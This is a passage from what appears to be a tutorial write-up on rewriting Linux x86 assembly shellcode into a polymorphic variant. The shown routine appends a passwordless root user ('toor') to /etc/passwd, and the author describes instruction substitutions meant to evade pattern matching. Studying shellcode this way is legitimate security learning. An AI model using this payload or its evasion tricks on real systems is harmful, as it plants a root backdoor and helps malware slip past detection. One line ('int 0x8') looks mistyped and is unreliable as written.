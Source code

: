 Moreover, I didn't want to use hard-coded values (`0x1a4` and `0x442`), so I simply used `DEC` and `ROL` to calculate the original values.

Next, there's the routing `AddMaliciousUser`, which appends the string `toor::0:0:t00r:/root:/bin/bash` to the previously-opened file, i.e. `/etc/passwd`:

```nasm
AddMaliciousUser:

    ; exchange EBX with EAX in order to save the
    ;   file descriptor of the file opened
    xchg ebx,eax

    ; clear EAX for later use
    xor eax, eax
    push eax
    pop edx

    ; save the DWORD 0x0000001f into EDX
    push 0x20
    pop edx
    dec edx

    ; save the DWORD 0x00000004 into EAX
    push 0x3
    pop eax
    inc eax

    ; get the pointer to `toor::0:0:t00r:/root:/bin/bash`
    ;   and save it into ECX
    push esi
    pop ecx

    ; call syscall write()
    int 0x80
```

Starting from the top, instead of using `mov ebx, eax` I chose to use an instruction I've rarely used up until now: `XCHG`, which exchanges the contents of the two registers.

Next, I've used the instruction `XOR`, `PUSH`, and `POP` in order to clear `EDX` and `EAX`.

Compared to the original shellcode, which simply clears `EDX` by means of the instruction `xor edx, edx`, mine clears `EAX` too, in order to avoid errors caused by the return value of `open()`.

Moreover, to make the shellcode more polymorphic and evade pattern matching, I used the `PUSH-POP` technique to set the desired values into the registers.

Below is the second-to-last Assembly routine:

```nasm
CloseFileHandle:

    xor eax, eax

    ; call syscall close()
    mov al,0x6
    int 0x8
```
